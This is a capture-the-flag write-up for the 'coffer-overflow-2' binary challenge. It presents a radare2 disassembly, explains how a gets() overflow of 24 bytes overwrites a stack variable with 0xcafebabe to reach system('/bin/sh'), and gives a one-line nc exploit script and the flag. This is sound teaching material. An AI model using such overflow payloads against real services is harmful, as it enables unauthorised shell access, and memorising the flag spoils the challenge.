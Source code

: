 # coffer-overflow-2

# Description

NotDeGhost

The coffers keep getting stronger! You'll need to use the source, Luke.

# Solution

We're given a binary and its source code.
Disassembling the binary gives us the following:

```asm
[0x00400590]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x00400590]> afl
0x00400590    1 42           entry0
0x004005d0    4 42   -> 37   sym.deregister_tm_clones
0x00400600    4 58   -> 55   sym.register_tm_clones
0x00400640    3 34   -> 29   sym.__do_global_dtors_aux
0x00400670    1 7            entry.init0
0x00400780    1 2            sym.__libc_csu_fini
0x00400784    1 9            sym._fini
0x00400710    4 101          sym.__libc_csu_init
0x004005c0    1 2            sym._dl_relocate_static_pie
0x00400677    3 147          main
0x00400560    1 6            sym.imp.setbuf
0x00400550    1 6            sym.imp.puts
0x00400580    1 6            sym.imp.gets
0x00400570    1 6            sym.imp.system
0x00400528    3 23           sym._init
[0x00400590]> pdf @main
            ; DATA XREF from entry0 @ 0x4005ad
┌ 147: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x20
│           ; var uint32_t var_8h @ rbp-0x8
│           0x00400677      55             push rbp
│           0x00400678      4889e5         mov rbp, rsp
│           0x0040067b      4883ec20       sub rsp, 0x20
│           0x0040067f      48c745f80000.  mov qword [var_8h], 0
│           0x00400687      488b05d20920.  mov rax, qword [obj.stdout] ; obj.stdout__GLIBC_2.2.5
│                                                                      ; [0x601060:8]=0
│           0x0040068e      be00000000     mov esi, 0                  ; char *buf
│           0x00400693      4889c7         mov rdi, rax                ; FILE *stream
│           0x00400696      e8c5feffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x0040069b      488b05ce0920.  mov rax, qword [obj.stdin]  ; obj.stdin__GLIBC_2.2.5
│                                                                      ; [0x601070:8]=0
│           0x004006a2      be00000000     mov esi, 0                  ; char *buf
│           0x004006a7      4889c7         mov rdi, rax                ; FILE *stream
│           0x004006aa      e8b1feffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x004006af      488b05ca0920.  mov rax, qword [obj.stderr] ; obj.stderr__GLIBC_2.2.5
│                                                                      ; [0x601080:8]=0
│           0x004006b6      be00000000     mov esi, 0                  ; char *buf
│           0x004006bb      4889c7         mov rdi, rax                ; FILE *stream
│           0x004006be      e89dfeffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x004006c3      488d3dce0000.  lea rdi, str.Welcome_to_coffer_overflow__where_our_coffers_are_overfilling_with_bytes ; 0x400798 ; "Welcome to coffer overflow, where our coffers are overfilling with bytes ;)" ; const char *s
│           0x004006ca      e881feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006cf      488d3d120100.  lea rdi, str.What_do_you_want_to_fill_your_coffer_with ; 0x4007e8 ; "What do you want to fill your coffer with?" ; const char *s
│           0x004006d6      e875feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006db      488d45e0       lea rax, [s]
│           0x004006df      4889c7         mov rdi, rax                ; char *s
│           0x004006e2      e899feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004006e7      b8bebafeca     mov eax, 0xcafebabe
│           0x004006ec      483945f8       cmp qword [var_8h], rax
│       ┌─< 0x004006f0      7511           jne 0x400703
│       │   0x004006f2      488d3d1a0100.  lea rdi, str.bin_sh         ; 0x400813 ; "/bin/sh" ; const char *string
│       │   0x004006f9      b800000000     mov eax, 0
│       │   0x004006fe      e86dfeffff     call sym.imp.system         ; int system(const char *string)
│       │   ; CODE XREF from main @ 0x4006f0
│       └─> 0x00400703      b800000000     mov eax, 0
│           0x00400708      c9             leave
└           0x00400709      c3             ret
[0x00400590]>
```

This program is quite similar to the one in coffer-overflow-0, however, there is one key difference.

Rather than jumping past the call to `system` if the variables are equal, here the jump is made if they are not equal.
This means that `qword [var_8h]` and `rax` must be equal to spawn a shell.

This is an issue as the variable `[var_8h]` is set to 0 at the start of the program.

```asm
0x0040067f      48c745f80000.  mov qword [var_8h], 0
```

Whereas `rax` is set to 0xcafebabe.

```asm
0x004006e7      b8bebafeca     mov eax, 0xcafebabe
```

(Recall that `eax` is a subdivision of `rax`).

However, we can use the same technique to overwrite `[var_8h]` to the correct value.

The difference between the address of `s`, which stores the output of `gets`, and `[var_8h]` is the same as in the previous challenge, which is 24 bytes.

```asm
; var char *s @ rbp-0x20
; var uint32_t var_8h @ rbp-0x8
```

Therefore, our payload consists of 24 bytes of padding, followed by 0xcafebabe, converted to little endian.

Once again, `cat` is used to redirect `stdin` to `stdout` and allow us to interact with the newly spawned shell.

## Exploit Script

```
#!/bin/bash

(echo -e AAAAAAAAAAAAAAAAAAAAAAAA'\xbe\xba\xfe\xca'; cat) | nc 2020.redpwnc.tf 31255
```

## Flag

```flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}```

